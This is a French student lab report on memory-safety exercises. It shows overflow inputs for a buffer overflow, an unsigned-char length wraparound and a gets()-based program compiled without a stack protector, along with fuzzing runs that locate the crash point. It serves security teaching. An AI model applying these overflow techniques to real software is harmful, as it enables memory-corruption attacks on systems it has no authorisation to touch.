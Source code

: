 # Securité - TP 3

---

## Exercice 1

Pour changer la variable `modified`, il faut surcharger le buffer lorsque l'on rentre le string, de manière à écrire au delà de la mémoire attribuée au buffer et ainsi changer le string. 

Ainsi, en rentrant 67 caractères, nous arrivons à changer modified : `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`. 

## Exercice 2

### 1.

Le programme prend en paramètre 2 strings ainsi que leur nombre de caractères. Il rend ainsi dans le buffer les 2 strings concaténés, ainsi que les tailles de 2 strings additionnés. 
Par contre, si on ne donne pas la bonne taille pour les 2 strings (par exemple une taille plus petite que la taille réel du string), alors seul le nombre de caractères spécifié en paramètre sera pris dans le string. 

**Exemple :**

```bash
./exo 2 coucou bateau 6 6 ---> buffer : coucoubateau, len1+len2 = 12
./exo 2 coucou bateau 5 6 ----> buffer : coucobateau, len1+len2 = 11
```

### 2.

Un unsigned char fait 1 octet.

### 3.

Pour changer la valeur de secret, il faut tout simplement que la valeur de len1 + len2 soit supérieure à 255. 

### 4.

Commande qui fonctionne : 

```bash
./a.out a BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB 255 161
``` 

Approche a expliquer....

## Exercice 3

## 1.)

La fonction `gets()` est signalée comme dangereuse par le compilateur. Il est connu que cette fonction permet un buffer overflow car elle ne limite pas la quantité de données saisies. Cela signifie que si un utilisateur entre plus de 128 caractères (la taille du buffer), les données supplémentaires vont déborder en mémoire, écrasant d'autres variables ou le retour d'adresse du programme.

```bash
clang -o rop vulnerable.c -m64 -fno-stack-protector -Wl,-z,relro,-z,now,-z,noexecstack -static

vulnerable.c:8:5: warning: implicit declaration of function 'gets' is invalid in C99 [-Wimplicit-function-declaration]
    gets(buff);
    ^
1 warning generated.
/usr/bin/ld: /tmp/vulnerable-90c7ba.o: in function `main':
vulnerable.c:(.text+0x23): warning: the `gets' function is dangerous and should not be used.
```

## 2.) 

Première série de tests :

```bash
perl -e 'print "A"x150' | ./rop
perl -e 'print "A"x200' | ./rop
perl -e 'print "A"x300' | ./rop
perl -e 'print "A"x350' | ./rop
perl -e 'print "A"x400' | ./rop

You password is incorrect
You password is incorrect
[1]    1842712 done                perl -e 'print "A"x200' | 
       1842713 segmentation fault  ./rop
You password is incorrect
[1]    1842714 done                perl -e 'print "A"x300' | 
       1842715 segmentation fault  ./rop
You password is incorrect
[1]    1842716 done                perl -e 'print "A"x350' | 
       1842717 segmentation fault  ./rop
You password is incorrect
[1]    1842718 done                perl -e 'print "A"x400' | 
       1842719 segmentation fault  ./rop
``` 

Seconde série de tests : 

```bash
perl -e 'print "A"x160' | ./rop
perl -e 'print "A"x170' | ./rop
perl -e 'print "A"x180' | ./rop
perl -e 'print "A"x190' | ./rop
perl -e 'print "A"x195' | ./rop

You password is incorrect
[1]    1842722 done                perl -e 'print "A"x160' | 
       1842723 segmentation fault  ./rop
You password is incorrect
[1]    1842724 done                perl -e 'print "A"x170' | 
       1842725 segmentation fault  ./rop
You password is incorrect
[1]    1842726 done                perl -e 'print "A"x180' | 
       1842727 segmentation fault  ./rop
You password is incorrect
[1]    1842728 done                perl -e 'print "A"x190' | 
       1842729 segmentation fault  ./rop
You password is incorrect
[1]    1842730 done                perl -e 'print "A"x195' | 
       1842731 segmentation fault  ./rop
```

150 caractères ne suffisent pas pour causer un segmentation fault, mais à partir de 160 caractères, le buffer déborde et l'écrasement se produit.


